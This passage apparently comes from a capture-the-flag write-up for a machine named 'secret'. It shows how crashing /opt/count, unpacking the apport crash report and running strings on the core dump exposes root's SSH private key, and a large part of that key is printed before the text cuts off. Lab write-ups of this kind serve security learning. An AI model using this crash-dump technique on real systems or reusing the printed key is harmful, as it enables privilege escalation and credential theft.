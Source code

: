 ```bash
/opt/count
Segmentation fault (core dumped)
```

`dasith`'s user ID is 1000. Use `apport-unpack` to unpack the crash report.

```bash
dasith@secret:~$ apport-unpack /var/crash/_opt_count.1000.crash crash-report
dasith@secret:~$ ls -la crash-report/
total 444
drwxrwxr-x  2 dasith dasith   4096 Feb 14 18:46 .
drwxr-xr-x 10 dasith dasith   4096 Feb 14 18:46 ..
-rw-rw-r--  1 dasith dasith      5 Feb 14 18:46 Architecture
-rw-rw-r--  1 dasith dasith 380928 Feb 14 18:46 CoreDump
-rw-rw-r--  1 dasith dasith      1 Feb 14 18:46 CrashCounter
-rw-rw-r--  1 dasith dasith     24 Feb 14 18:46 Date
-rw-rw-r--  1 dasith dasith     12 Feb 14 18:46 DistroRelease
-rw-rw-r--  1 dasith dasith     10 Feb 14 18:46 ExecutablePath
-rw-rw-r--  1 dasith dasith     10 Feb 14 18:46 ExecutableTimestamp
-rw-rw-r--  1 dasith dasith      1 Feb 14 18:46 _LogindSession
-rw-rw-r--  1 dasith dasith      5 Feb 14 18:46 ProblemType
-rw-rw-r--  1 dasith dasith     10 Feb 14 18:46 ProcCmdline
-rw-rw-r--  1 dasith dasith      4 Feb 14 18:46 ProcCwd
-rw-rw-r--  1 dasith dasith     89 Feb 14 18:46 ProcEnviron
-rw-rw-r--  1 dasith dasith   2144 Feb 14 18:46 ProcMaps
-rw-rw-r--  1 dasith dasith   1335 Feb 14 18:46 ProcStatus
-rw-rw-r--  1 dasith dasith      2 Feb 14 18:46 Signal
-rw-rw-r--  1 dasith dasith     29 Feb 14 18:46 Uname
-rw-rw-r--  1 dasith dasith      3 Feb 14 18:46 UserGroups
```

The memory dump is in the binary `CoreDump` file. Use `strings` on it to pull out `root`'s SSH private key.

```bash
dasith@secret:~$ strings crash-report/CoreDump
...
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3
KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+
7wNrxitkPrmuViWPGQCotBDCZmn4WNbNT0kcsfA+b4xB+am6tyDthqjfPJngROf0Z26lA1
xw0OmoCdyhvQ3azlbkZZ7EWeTtQ/EYcdYofa8/mbQ+amOb9YaqWGiBai69w0Hzf06lB8cx
8G+KbGPcN174a666dRwDFmbrd9nc9E2YGn5aUfMkvbaJoqdHRHGCN1rI78J7rPRaTC8aTu
BKexPVVXhBO6+e1htuO31rHMTHABt4+6K4wv7YvmXz3Ax4HIScfopVl7futnEaJPfHBdg2
5yXbi8lafKAGQHLZjD9vsyEi5wqoVOYalTXEXZwOrstp3Y93VKx4kGGBqovBKMtlRaic+Y
Tv0vTW3fis9d7aMqLpuuFMEHxTQPyor3+/aEHiLLAAAFiMxy1SzMctUsAAAAB3NzaC1yc2
EAAAGBAJ+sy5Zu0DhhmcrVAjt0jaUeb3Q38Tc5X5FMOJzMP4RZaUT2ikW4tylGbASsoKDr
85oc1mHLONd1AyalDFrPqPTsHqtL4sENUCZlcM76hYxTUsc1xFaI5qAnj8Pu8Da8YrZD65
rlYljxkAqLQQwmZp+FjWzU9JHLHwPm+MQfmpurcg7Yao3zyZ4ETn9GdupQNccNDpqAncob
0N2s5W5GWexFnk7UPxGHHWKH2vP5m0Pmpjm/WGqlhogWouvcNB839OpQfHMfBvimxj3Dde
+GuuunUcAxZm63fZ3PRNmBp+WlHzJL22iaKnR0RxgjdayO/Ce6z0WkwvGk7gSnsT1VV4QT
uvntYbbjt9axzExwAbePuiuML+2L5l89wMeByEnH6KVZe37rZxGiT3xwXYNucl24vJWnyg
BkBy2Yw/b7MhIucKqFTmGpU1xF2cDq7Lad2Pd1SseJBhgaqLwSjLZUWonPmE79L01t34rP
Xe2jKi6brhTBB8U0D8qK9/v2hB4iywAAAAMBAAEAAAGAGkWVDcBX1B8C7eOURXIM6DEUx3
t43cw71C1FV08n2D/Z2TXzVDtrL4hdt3srxq5r21yJTXfhd1nSVeZsHPjz5LCA71BCE997
44VnRTblCEyhXxOSpWZLA+jed691qJvgZfrQ5iB9yQKd344/+p7K3c5ckZ6MSvyvsrWrEq
Hcj2ZrEtQ62/ZTowM0Yy6V3EGsR373eyZUT++5su+CpF1A6GYgAPpdEiY4CIEv3lqgWFC3
4uJ/yrRHaVbIIaSOkuBi0h7Is562aoGp7/9Q3j/YUjKBtLvbvbNRxwM+sCWLasbK5xS7Vv
D569yMirw2xOibp3nHepmEJnYZKomzqmFsEvA1GbWiPdLCwsX7btbcp0tbjsD5dmAcU4nF
JZI1vtYUKoNrmkI5WtvCC8bBvA4BglXPSrrj1pGP9QPVdUVyOc6QKSbfomyefO2HQqne6z
y0N8QdAZ3dDzXfBlVfuPpdP8yqUnrVnzpL8U/gc1ljKcSEx262jXKHAG3mTTNKtooZAAAA
wQDPMrdvvNWrmiF9CSfTnc5v3TQfEDFCUCmtCEpTIQHhIxpiv+mocHjaPiBRnuKRPDsf81
ainyiXYooPZqUT2lBDtIdJbid6G7oLoVbx4xDJ7h4+U70rpMb/tWRBuM51v9ZXAlVUz14o
Kt+Rx9peAx7dEfTHNvfdauGJL6k3QyGo+90nQDripDIUPvE0sac1tFLrfvJHYHsYiS7hLM
```